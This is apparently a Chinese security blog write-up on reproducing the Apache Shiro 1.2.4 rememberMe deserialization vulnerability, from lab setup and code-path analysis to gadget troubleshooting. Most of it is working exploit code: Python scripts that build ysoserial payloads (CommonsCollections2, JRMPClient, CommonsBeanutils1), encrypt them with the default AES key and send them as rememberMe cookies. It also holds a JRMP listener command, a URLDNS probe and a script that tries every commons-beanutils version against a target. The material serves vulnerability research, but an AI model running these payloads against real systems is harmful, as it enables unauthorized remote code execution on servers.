利用环境搭建 1 2 docker pull medicean/vulapps:s_shiro_1 docker run -d -p 80:8080 medicean/vulapps:s_shiro_1
漏洞利用条件 只要rememberMe的AES加密密钥泄露，无论shiro是什么版本都会导致反序列化漏洞。
漏洞利用 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 import osimport reimport base64import uuidimport subprocessimport requestsfrom Crypto.Cipher import AESJAR_FILE = '/Users/Viarus/Downloads/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar' def poc (url, rce_command) : if '://' not in url: target = 'https://%s' % url if ':443' in url else 'http://%s' % url else : target = url try : payload = generator(rce_command, JAR_FILE) r = requests.get(target, cookies={'rememberMe' : payload.decode()}, timeout=10 ) print r.text except Exception, e: pass return False def generator (command, fp) : if not os.path.exists(fp): raise Exception('jar file not found!' ) popen = subprocess.Popen(['java' , '-jar' , fp, 'CommonsCollections2' , command], stdout=subprocess.PIPE) BS = AES.block_size pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode() key = "kPH+bIxk5D2deZiIxcaaaA==" mode = AES.MODE_CBC iv = uuid.uuid4().bytes encryptor = AES.new(base64.b64decode(key), mode, iv) file_body = pad(popen.stdout.read()) base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body)) return base64_ciphertext if __name__ == '__main__' : poc('http://127.0.0.1:8080' , 'open /Applications/Calculator.app' )
动态分析环境搭建 1 2 3 git clone https://github.com/apache/shiro.git git checkout shiro-root-1.2.4 cd ./shiro/samples/web
mac 安装jdk6 https://juejin.im/post/5d550c5d51882504fb3022f7 shiro/samples/web中添加
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 <properties > <maven.compiler.source > 1.8</maven.compiler.source > <maven.compiler.target > 1.8</maven.compiler.target > </properties > <dependencies > <dependency > <groupId > javax.servlet</groupId > <artifactId > jstl</artifactId > <version > 1.2</version > <scope > runtime</scope > </dependency > <dependency > <groupId > org.apache.commons</groupId > <artifactId > commons-collections4</artifactId > <version > 4.0</version > </dependency > <dependencies >

1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 <?xml version="1.0" encoding="UTF-8"?> <toolchains xmlns="http://maven.apache.org/TOOLCHAINS/1.1.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://maven.apache.org/TOOLCHAINS/1.1.0 http://maven.apache.org/xsd/toolchains-1.1.0.xsd"> <!--插入下面代码--> <toolchain> <type>jdk</type> <provides> <version>1.6</version> <vendor>sun</vendor> </provides> <configuration> <!--这里是你安装jdk的文件目录--> <jdkHome>/Library/Java/JavaVirtualMachines/1.6.0.jdk/</jdkHome> </configuration> </toolchain> </toolchains>

Run
Edit Configurations
添加TomcatServer(Local)
Server中配置Tomcat路径
Deployment中添加Artifact
选择sample-web:war exploded



代码分析 根据官网的叙述 比较清楚了

加密 convertPrincipalsToBytes

序列化具体

加密具体

加密用到encryptionCipherKey在构造方法中确定，其实就是DEFAULT_CIPHER_KEY_BYTES


加密用到的cipherService在对象初始化的时候确定为Aes加密

调用栈

解密 getRememberedPrincipals

反序列化的起点

调用栈
漏洞的原生利用 shiro自带的包是commons-collections3.2.1

其实原生情况下直接用ysoserial打会出现报错


报错的原因是

最开始的可以打成功的原因是，为了方便进行复现，搭建环境时手动添加了ysoserial支持的commons-collections4，所以复现起来才和喝水一样简单（橘子师傅原话）
解决这种问题的办法是使用JRMP，至于原因应该是

1 java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 4444 CommonsCollections5 'touch /tmp/hack_shiro_jrmp'
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 import osimport reimport base64import uuidimport subprocessimport requestsfrom Crypto.Cipher import AESJAR_FILE = '/Users/cengsiqi/Desktop/pentest/ysoserial-0.0.6-SNAPSHOT-all.jar' def poc (url, JRMPServerIp) : if '://' not in url: target = 'https://%s' % url if ':443' in url else 'http://%s' % url else : target = url try : payload = generator(JRMPServerIp, JAR_FILE) r = requests.get(target, cookies={'rememberMe' : payload.decode()}, timeout=10 ) print r.text except Exception, e: pass return False def generator (JRMPServerIp, fp) : if not os.path.exists(fp): raise Exception('jar file not found!' ) popen = subprocess.Popen(['java' , '-jar' , fp, 'JRMPClient' , JRMPServerIp], stdout=subprocess.PIPE) BS = AES.block_size pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode() key = "kPH+bIxk5D2deZiIxcaaaA==" mode = AES.MODE_CBC iv = uuid.uuid4().bytes encryptor = AES.new(base64.b64decode(key), mode, iv) file_body = pad(popen.stdout.read()) base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body)) return base64_ciphertext if __name__ == '__main__' : poc('http://127.0.0.1:8888/samples_web_war_exploded/' , '127.0.0.1:12345' )
然而本地测试的时候并未复现中，应该是gadget的问题，因为在加了commons-conllections4.0的环境用ysoserial的CommonsCollections2就可以成功。难道是环境没装好？
后来仔细看了一下，确实是环境的问题，具体原因是打包成war的时候只会把compile和runtime的打包，而test的属于开发阶段需要使用的，从而不会打进去，而这里common-conllectons恰好属于test。所以生成环境中根本没有common-conllectons，因此是不可能打成功的 。


此外注意到原生shiro，还自带CommonsBeanutils1.8.3，而CommonsBeanutils历史上是有gadget。


改了ysoserial的pom CommonsBeanutils成1.8.3又爆了新的错误
1 2 3 4 Caused by: org.apache.shiro.util.UnknownClassException: Unable to load class named [org.apache.commons.collections.comparators.ComparableComparator] from the thread context, current, or system/application ClassLoaders. All heuristics have been exhausted. Class could not be found. at org.apache.shiro.util.ClassUtils.forName(ClassUtils.java:148) at org.apache.shiro.io.ClassResolvingObjectInputStream.resolveClass(ClassResolvingObjectInputStream.java:53) ... 51 more
所以立个flag：纯原生的shiro只是一个反序列化的触发点，没有完整gadget。因此需要结合其它依赖shiro的项目才有可能达到RCE的效果（比如jeecms）
其他 解密脚本 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 # pip install pycrypto import sys import base64 from Crypto.Cipher import AES def decode_rememberme(cookie): key = "kPH+bIxk5D2deZiIxcaaaA==" mode = AES.MODE_CBC cipher = base64.b64decode(cookie) IV = cipher[0:16] encryptor = AES.new(base64.b64decode(key), mode, IV=IV) remember_bin = encryptor.decrypt(cipher[16:]) return remember_bin if __name__ == '__main__': cookie="""""" print(decode_rememberme(cookie)[16:])
1 python decrypt.py cGhyYWNrY3RmREUhfiMkZA== | xxd
DNS gadget验证漏洞 1 java -jar ysoserial-master-SNAPSHOT.jar URLDNS http://yoursite
获取全版本解决SUID问题 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 import requestsimport subprocessimport uuidimport base64import osfrom subprocess import Popen,PIPEfrom xml.dom.minidom import *from Crypto.Cipher import AESrepo_url = "http://uk.maven.org/maven2/commons-beanutils/commons-beanutils/maven-metadata.xml" mvn_home = "/Users/cengsiqi/.m2/repository" yso_path = "/Users/cengsiqi/Desktop/pentest/ysoserial/target/classes" gadget = "CommonsBeanutils1" command = 'touch /tmp/hack_shiro_CommonsBeanutils1' key = "4AvVhmFLUs0KTA3Kprsdag==" target = "http://172.16.247.129:8080/" iv = uuid.uuid4().bytes res = requests.get(repo_url) html = res.content root = parseString(html.decode("utf-8" )) groupId = root.getElementsByTagName("groupId" )[0 ].firstChild.data artifactId = root.getElementsByTagName("artifactId" )[0 ].firstChild.data print(groupId, artifactId) def encode (payload) : BS = AES.block_size pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode() mode = AES.MODE_CBC encryptor = AES.new(base64.b64decode(key), mode, iv) file_body = pad(payload) base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body)) return base64_ciphertext for i in root.getElementsByTagName("version" ): version = i.firstChild.data if version.find('-pre' ) > -1 : continue jar_path = mvn_home + '/' + groupId.replace('.' , '/' ) + '/' + artifactId + '/' + version + '/' + artifactId + '-' + version + '.jar' print(jar_path) mvncmd = "mvn dependency:get -DremoteRepositories=http://repo1.maven.org/maven2/ -DgroupId=%s -DartifactId=%s -Dversion=%s" \ % (groupId, artifactId, version) child = Popen(mvncmd, shell=True , stdout=PIPE, stderr=PIPE) child.wait() cmd2 = "{0}:{2}:{1}/net/iharder/base64/2.3.9/base64-2.3.9.jar:{1}/commons-io/commons-io/2.6/commons-io-2.6.jar:{1}/org/reflections/reflections/0.9.9/reflections-0.9.9.jar:{1}/com/google/guava/guava/15.0/guava-15.0.jar:{1}/com/google/code/findbugs/annotations/2.0.1/annotations-2.0.1.jar:{1}/org/jboss/shrinkwrap/resolver/shrinkwrap-resolver-api/2.1.1/shrinkwrap-resolver-api-2.1.1.jar:{1}/org/jboss/shrinkwrap/resolver/shrinkwrap-resolver-spi/2.1.1/shrinkwrap-resolver-spi-2.1.1.jar:{1}/org/jboss/shrinkwrap/resolver/shrinkwrap-resolver-api-maven/2.1.1/shrinkwrap-resolver-api-maven-2.1.1.jar:{1}/org/jboss/shrinkwrap/resolver/shrinkwrap-resolver-spi-maven/2.1.1/shrinkwrap-resolver-spi-maven-2.1.1.jar:{1}/org/jboss/shrinkwrap/resolver/shrinkwrap-resolver-api-maven-archive/2.1.1/shrinkwrap-resolver-api-maven-archive-2.1.1.jar:{1}/org/jboss/shrinkwrap/shrinkwrap-api/1.2.1/shrinkwrap-api-1.2.1.jar:{1}/org/jboss/shrinkwrap/resolver/shrinkwrap-resolver-impl-maven/2.1.1/shrinkwrap-resolver-impl-maven-2.1.1.jar:{1}/org/eclipse/aether/aether-api/0.9.0.M2/aether-api-0.9.0.M2.jar:{1}/org/eclipse/aether/aether-impl/0.9.0.M2/aether-impl-0.9.0.M2.jar:{1}/org/eclipse/aether/aether-spi/0.9.0.M2/aether-spi-0.9.0.M2.jar:{1}/org/eclipse/aether/aether-util/0.9.0.M2/aether-util-0.9.0.M2.jar:{1}/org/eclipse/aether/aether-connector-wagon/0.9.0.M2/aether-connector-wagon-0.9.0.M2.jar:{1}/org/apache/maven/maven-aether-provider/3.1.1/maven-aether-provider-3.1.1.jar:{1}/org/apache/maven/maven-model/3.1.1/maven-model-3.1.1.jar:{1}/org/apache/maven/maven-model-builder/3.1.1/maven-model-builder-3.1.1.jar:{1}/org/codehaus/plexus/plexus-component-annotations/1.5.5/plexus-component-annotations-1.5.5.jar:{1}/org/apache/maven/maven-repository-metadata/3.1.1/maven-repository-metadata-3.1.1.jar:{1}/org/apache/maven/maven-settings/3.1.1/maven-settings-3.1.1.jar:{1}/org/apache/maven/maven-settings-builder/3.1.1/maven-settings-builder-3.1.1.jar:{1}/org/codehaus/plexus/plexus-interpolation/1.19/plexus-interpolation-1.19.jar:{1}/org/codehaus/plexus/plexus-utils/3.0.15/plexus-utils-3.0.15.jar:{1}/org/sonatype/plexus/plexus-sec-dispatcher/1.3/plexus-sec-dispatcher-1.3.jar:{1}/org/sonatype/plexus/plexus-cipher/1.4/plexus-cipher-1.4.jar:{1}/org/apache/maven/wagon/wagon-provider-api/2.6/wagon-provider-api-2.6.jar:{1}/org/apache/maven/wagon/wagon-file/2.6/wagon-file-2.6.jar:{1}/org/apache/maven/wagon/wagon-http-lightweight/2.6/wagon-http-lightweight-2.6.jar:{1}/org/apache/maven/wagon/wagon-http-shared/2.6/wagon-http-shared-2.6.jar:{1}/org/jboss/shrinkwrap/resolver/shrinkwrap-resolver-impl-maven-archive/2.1.1/shrinkwrap-resolver-impl-maven-archive-2.1.1.jar:{1}/org/jboss/shrinkwrap/shrinkwrap-impl-base/1.2.1/shrinkwrap-impl-base-1.2.1.jar:{1}/org/jboss/shrinkwrap/shrinkwrap-spi/1.2.1/shrinkwrap-spi-1.2.1.jar:{1}/org/jboss/shrinkwrap/resolver/shrinkwrap-resolver-spi-maven-archive/2.1.1/shrinkwrap-resolver-spi-maven-archive-2.1.1.jar:{1}/org/eclipse/sisu/org.eclipse.sisu.plexus/0.0.0.M5/org.eclipse.sisu.plexus-0.0.0.M5.jar:{1}/org/sonatype/sisu/sisu-guice/3.1.0/sisu-guice-3.1.0-no_aop.jar:{1}/org/eclipse/sisu/org.eclipse.sisu.inject/0.0.0.M5/org.eclipse.sisu.inject-0.0.0.M5.jar:{1}/org/codehaus/plexus/plexus-compiler-javac/2.3/plexus-compiler-javac-2.3.jar:{1}/org/codehaus/plexus/plexus-compiler-api/2.3/plexus-compiler-api-2.3.jar:{1}/org/javassist/javassist/3.19.0-GA/javassist-3.19.0-GA.jar:{1}/commons-codec/commons-codec/1.9/commons-codec-1.9.jar:{1}/org/jenkins-ci/main/remoting/2.55/remoting-2.55.jar:{1}/org/jenkins-ci/constant-pool-scanner/1.2/constant-pool-scanner-1.2.jar:{1}/org/jboss/logging/jboss-logging/3.3.0.Final/jboss-logging-3.3.0.Final.jar:{1}/org/jboss/remoting/jboss-remoting/4.0.19.Final/jboss-remoting-4.0.19.Final.jar:{1}/org/jboss/xnio/xnio-api/3.3.4.Final/xnio-api-3.3.4.Final.jar:{1}/org/jboss/jboss-common-core/2.5.0.Final/jboss-common-core-2.5.0.Final.jar:{1}/org/jboss/xnio/xnio-nio/3.3.4.Final/xnio-nio-3.3.4.Final.jar:{1}/org/jboss/sasl/jboss-sasl/1.0.5.Final/jboss-sasl-1.0.5.Final.jar:{1}/org/jboss/remotingjmx/remoting-jmx/2.0.1.Final/remoting-jmx-2.0.1.Final.jar:{1}/org/jboss/logging/jboss-logging-processor/1.2.0.Final/jboss-logging-processor-1.2.0.Final.jar:{1}/org/jboss/jdeparser/jdeparser/1.0.0.Final/jdeparser-1.0.0.Final.jar:{1}/org/jboss/marshalling/jboss-marshalling/1.4.10.Final/jboss-marshalling-1.4.10.Final.jar:{1}/org/jboss/marshalling/jboss-marshalling-river/1.4.10.Final/jboss-marshalling-river-1.4.10.Final.jar:{1}/commons-collections/commons-collections/3.1/commons-collections-3.1.jar:{1}/org/beanshell/bsh/2.0b5/bsh-2.0b5.jar:{1}/com/mchange/c3p0/0.9.5.2/c3p0-0.9.5.2.jar:{1}/commons-logging/commons-logging/1.1.1/commons-logging-1.1.1.jar:{1}/org/apache/commons/commons-collections4/4.0/commons-collections4-4.0.jar:{1}/org/codehaus/groovy/groovy/2.3.9/groovy-2.3.9.jar:{1}/org/springframework/spring-core/4.1.4.RELEASE/spring-core-4.1.4.RELEASE.jar:{1}/org/springframework/spring-beans/4.1.4.RELEASE/spring-beans-4.1.4.RELEASE.jar:{1}/org/hibernate/hibernate-core/4.3.11.Final/hibernate-core-4.3.11.Final.jar:{1}/org/jboss/logging/jboss-logging-annotations/1.2.0.Beta1/jboss-logging-annotations-1.2.0.Beta1.jar:{1}/org/jboss/spec/javax/transaction/jboss-transaction-api_1.2_spec/1.0.0.Final/jboss-transaction-api_1.2_spec-1.0.0.Final.jar:{1}/dom4j/dom4j/1.6.1/dom4j-1.6.1.jar:{1}/xml-apis/xml-apis/1.0.b2/xml-apis-1.0.b2.jar:{1}/org/hibernate/common/hibernate-commons-annotations/4.0.5.Final/hibernate-commons-annotations-4.0.5.Final.jar:{1}/org/hibernate/javax/persistence/hibernate-jpa-2.1-api/1.0.0.Final/hibernate-jpa-2.1-api-1.0.0.Final.jar:{1}/antlr/antlr/2.7.7/antlr-2.7.7.jar:{1}/org/jboss/jandex/1.1.0.Final/jandex-1.1.0.Final.jar:{1}/org/springframework/spring-aop/4.1.4.RELEASE/spring-aop-4.1.4.RELEASE.jar:{1}/aopalliance/aopalliance/1.0/aopalliance-1.0.jar:{1}/net/sf/json-lib/json-lib/2.4/json-lib-2.4-jdk15.jar:{1}/commons-lang/commons-lang/2.5/commons-lang-2.5.jar:{1}/net/sf/ezmorph/ezmorph/1.0.6/ezmorph-1.0.6.jar:{1}/commons-fileupload/commons-fileupload/1.3/commons-fileupload-1.3.jar:{1}/org/apache/wicket/wicket-util/6.23.0/wicket-util-6.23.0.jar:{1}/org/apache/shiro/shiro-core/1.4.0/shiro-core-1.4.0.jar:{1}/org/apache/shiro/shiro-lang/1.4.0/shiro-lang-1.4.0.jar:{1}/org/apache/shiro/shiro-cache/1.4.0/shiro-cache-1.4.0.jar:{1}/org/apache/shiro/shiro-crypto-hash/1.4.0/shiro-crypto-hash-1.4.0.jar:{1}/org/apache/shiro/shiro-crypto-core/1.4.0/shiro-crypto-core-1.4.0.jar:{1}/org/apache/shiro/shiro-crypto-cipher/1.4.0/shiro-crypto-cipher-1.4.0.jar:{1}/org/apache/shiro/shiro-config-core/1.4.0/shiro-config-core-1.4.0.jar:{1}/org/apache/shiro/shiro-config-ogdl/1.4.0/shiro-config-ogdl-1.4.0.jar:{1}/org/apache/shiro/shiro-event/1.4.0/shiro-event-1.4.0.jar:~/.m2/repository/com/mchange/c3p0/0.9.5.2/c3p0-0.9.5.2.jar:{1}/com/mchange/mchange-commons-java/0.2.11/mchange-commons-java-0.2.11.jar:{1}/javax/servlet/javax.servlet-api/3.1.0/javax.servlet-api-3.1.0.jar:{1}/org/apache/myfaces/core/myfaces-impl/2.2.9/myfaces-impl-2.2.9.jar:{1}/org/apache/myfaces/core/myfaces-api/2.2.9/myfaces-api-2.2.9.jar:{1}/org/apache/geronimo/specs/geronimo-atinject_1.0_spec/1.0/geronimo-atinject_1.0_spec-1.0.jar:{1}/commons-digester/commons-digester/1.8/commons-digester-1.8.jar:{1}/xalan/xalan/2.7.2/xalan-2.7.2.jar:{1}/xalan/serializer/2.7.2/serializer-2.7.2.jar:{1}/rome/rome/1.0/rome-1.0.jar:{1}/jdom/jdom/1.0/jdom-1.0.jar:{1}/org/python/jython-standalone/2.5.2/jython-standalone-2.5.2.jar:{1}/rhino/js/1.7R2/js-1.7R2.jar:{1}/javassist/javassist/3.12.0.GA/javassist-3.12.0.GA.jar:{1}/org/jboss/weld/weld-core/1.1.33.Final/weld-core-1.1.33.Final.jar:{1}/org/jboss/weld/weld-api/1.1.Final/weld-api-1.1.Final.jar:{1}/org/jboss/weld/weld-spi/1.1.Final/weld-spi-1.1.Final.jar:{1}/javax/annotation/jsr250-api/1.0/jsr250-api-1.0.jar:{1}/org/jboss/spec/javax/interceptor/jboss-interceptors-api_1.1_spec/1.0.0.Beta1/jboss-interceptors-api_1.1_spec-1.0.0.Beta1.jar:{1}/org/slf4j/slf4j-ext/1.7.2/slf4j-ext-1.7.2.jar:{1}/ch/qos/cal10n/cal10n-api/0.7.7/cal10n-api-0.7.7.jar:{1}/org/jboss/interceptor/jboss-interceptor-core/2.0.0.Final/jboss-interceptor-core-2.0.0.Final.jar:{1}/org/jboss/interceptor/jboss-interceptor-spi/2.0.0.Final/jboss-interceptor-spi-2.0.0.Final.jar:{1}/javax/enterprise/cdi-api/1.0-SP1/cdi-api-1.0-SP1.jar:{1}/org/jboss/interceptor/jboss-interceptor-api/1.1/jboss-interceptor-api-1.1.jar:{1}/javax/inject/javax.inject/1/javax.inject-1.jar:{1}/javax/interceptor/javax.interceptor-api/3.1/javax.interceptor-api-3.1.jar:{1}/org/slf4j/slf4j-api/1.7.21/slf4j-api-1.7.21.jar:{1}/org/clojure/clojure/1.8.0/clojure-1.8.0.jar:{1}/com/vaadin/vaadin-server/7.7.14/vaadin-server-7.7.14.jar:{1}/com/vaadin/vaadin-sass-compiler/0.9.13/vaadin-sass-compiler-0.9.13.jar:{1}/org/w3c/css/sac/1.3/sac-1.3.jar:{1}/com/vaadin/external/flute/flute/1.3.0.gg2/flute-1.3.0.gg2.jar:{1}/com/vaadin/vaadin-shared/7.7.14/vaadin-shared-7.7.14.jar:{1}/org/jsoup/jsoup/1.8.3/jsoup-1.8.3.jar:{1}/org/mortbay/jasper/apache-el/8.0.27/apache-el-8.0.27.jar:{1}/com/nqzero/permit-reflect/0.3/permit-reflect-0.3.jar:{1}/com/nqzero/permit-reflect/0.3/permit-reflect-0.3.jar" .format(yso_path, mvn_home, jar_path) print(version) popen = subprocess.Popen(['java' , '-cp' , cmd2, "ysoserial.GeneratePayload" , gadget, command],stdout=subprocess.PIPE) payload = popen.stdout.read() base64_ciphertext = encode(payload) try : r = requests.get(target, cookies={'rememberMe' : base64_ciphertext.decode()}, timeout=10 ) JAR_FILE = '/Users/cengsiqi/Desktop/pentest/ysoserial-0.0.6-SNAPSHOT-all.jar' except Exception as e: print(e)
参考 https://paper.seebug.org/shiro-rememberme-1-2-4/ https://joychou.org/java/apache-shiro-java-deserialize-vulnerability.html https://blog.zsxsoft.com/post/35 https://www.cnblogs.com/Ahanu/p/5051090.html http://blog.orange.tw/2018/03/pwn-ctf-platform-with-java-jrmp-gadget.html https://bling.kapsi.fi/blog/jvm-deserialization-broken-classldr.html